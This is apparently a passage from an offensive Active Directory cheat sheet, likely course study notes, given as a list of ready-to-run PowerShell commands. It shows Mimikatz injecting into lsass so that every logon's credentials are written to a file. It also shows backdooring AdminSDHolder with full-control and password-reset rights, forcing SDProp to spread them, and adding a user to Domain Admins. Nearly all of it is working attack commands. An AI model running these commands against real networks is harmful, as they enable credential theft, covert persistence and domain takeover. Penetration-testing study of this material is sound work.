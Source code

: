 #### Use mimikatz to inject into lsass
all logons are logged to C:\Windows\System32\kiwissp.log
```
Invoke-Mimikatz -Command '"misc:memssp"'
```

## ACL
### AdminSDHolder
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence

#### Check if student has replication rights
```
Get-ObjectAcl -DistinguishedName "dc=<DOMAIN>,dc=<TOP DOMAIN>" -ResolveGUIDs | ? {($_.IdentityReference -match "<username>") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

#### Add fullcontrol permissions for a user to the adminSDHolder
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=<DOMAIN>,dc=<TOP DOMAIN>' -PrincipalIdentity <USERNAME> -Rights All -PrincipalDomain <DOMAIN> -TargetDomain <DOMAIN> -Verbose
```

#### Other interesting permissions
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=<DOMAIN>,dc=<TOP DOMAIN>' -PrincipalIdentity <USERNAME> -Rights ResetPassword -PrincipalDomain <DOMAIN> -TargetDomain <DOMAIN> -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=<DOMAIN>,dc=<TOP DOMAIN>' -PrincipalIdentity <USERNAME> -Rights WriteMembers -PrincipalDomain <DOMAIN> -TargetDomain <DOMAIN> -Verbose
```

#### Run SDProp on AD (Force the sync of AdminSDHolder)
```
Invoke-SDPropagator -showProgress -timeoutMinutes 1

#Before server 2008
Invoke-SDpropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

#### Check if user got generic all against domain admins group
```
Get-ObjectAcl -SamaccountName "Domain Admins" –ResolveGUIDS | ?{$_.identityReference -match ‘<username>’}
```

#### Add user to domain admin group
```
Add-DomainGroupMember -Identity "Domain Admins" -Members <USERNAME> -Verbose
```

